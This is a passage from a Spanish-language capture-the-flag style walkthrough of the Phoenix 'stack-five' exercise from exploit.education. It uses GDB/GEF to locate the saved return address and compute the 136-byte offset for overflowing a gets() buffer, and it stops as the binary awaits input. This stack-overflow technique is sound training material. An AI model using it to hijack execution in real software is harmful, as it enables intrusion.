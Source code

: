 Aunque en el código se reservaron 128 bytes para el buffer, podemos usar el comando `find 0x7fffffffe5a0, +200, 0x4005c7` para ubicar en memoria la dirección de retorno (saved RIP) que ya la conocemos y es  **0x4005c7**

En este ejemplo, buscamos a partir de la dirección de inicio del buffer **0x7fffffffe5a0** un rango de 200 bytes para localizar el valor **0x4005c7** y como resultado tenemos la dirección **0x7fffffffe628**

```csharp
gef➤  find 0x7fffffffe5a0, +200, 0x4005c7
0x7fffffffe628
1 pattern found.
gef➤ 
```

Esto lo estamos realizando para ver una forma de encontrar el offset de este reto que sería restarle a la dirección de retorno (saved RIP) **0x7fffffffe628** la dirección del buffer **0x7fffffffe5a0** que lo podemos hacer con el comando `printf "%i\n",0x7fffffffe628 - 0x7fffffffe5a0` y así tenemos el dato para el offset

```csharp
gef➤  printf "%i\n",0x7fffffffe628 - 0x7fffffffe5a0
136
gef➤
```

También podemos tener el offset con la herramienta pwn cyclic de la librería Pwntools como lo realizamos en el reto anterior, vamos a realizar este proceso desde el principio para que nos quede más claro, lo primero es correr el binario con gdb y poner el break para realizar la validación 

```csharp
user@phoenix-amd64:/opt/phoenix/amd64$ gdb -q stack-five
GEF for linux ready, type `gef' to start, `gef config' to configure
71 commands loaded for GDB 8.2.1 using Python engine 3.5
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from stack-five...(no debugging symbols found)...done.
gef➤  disass start_level
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
End of assembler dump.
gef➤  b *0x00000000004005a1
Breakpoint 1 at 0x4005a1
gef➤
```

Luego con el comando `r` ejecutamos el binario y este nos pide el dato 

```csharp
gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

```
